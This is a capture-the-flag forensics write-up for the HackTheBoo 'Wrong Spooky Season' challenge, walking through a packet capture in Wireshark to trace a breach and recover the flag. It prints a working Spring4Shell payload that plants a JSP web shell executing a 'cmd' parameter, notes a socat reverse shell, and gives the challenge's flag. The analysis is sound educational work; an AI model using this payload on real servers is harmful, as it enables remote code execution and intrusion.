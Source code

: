 # Wrong Spooky Season

## Background

> "I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

- Overall difficulty for me: Very easy

## Find the flag

**In this challenge, we can [download a file](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/forensics_wrong_spooky_season.zip)!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a1.png)

```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap

┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# file capture.pcap     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

**It's a `pcap` file! Let's open it in WireShark!**
```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# wireshark capture.pcap
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a2.png)

**That's a lot of HTTP packets! Let's filter HTTP all requests!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a3.png)

**The attacker (`192.168.1.180`) looks like has sent a POST request, which uploaded a JSP reverse shell on the web server!**

**In the second POST request, I see this:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a4.png)

**Let's URL decode that in CyberChef:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a5.png)

```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

**After some googling, this is a Spring4Shell payload!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a7.png)

**In the last HTTP GET request, we can see that the threat actor is installing `socat` in the victim system, and use that as a reverse shell!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a8.png)

**Now, we can go to the last TCP stream to see what the threat actor did:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a9.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBoo/Forensics/Wrong-Spooky-Season/images/a10.png)

**That reversed `base64` string looks sussy! Let's decode that:**
```
┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev
SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

┌──(root🌸siunam)-[~/ctf/HackTheBoo/Forensics/Wrong-Spooky-Season]
└─# echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Found the flag!

# Conclusion

What we've learned:

1. Inspecting `pcap` File via WireShark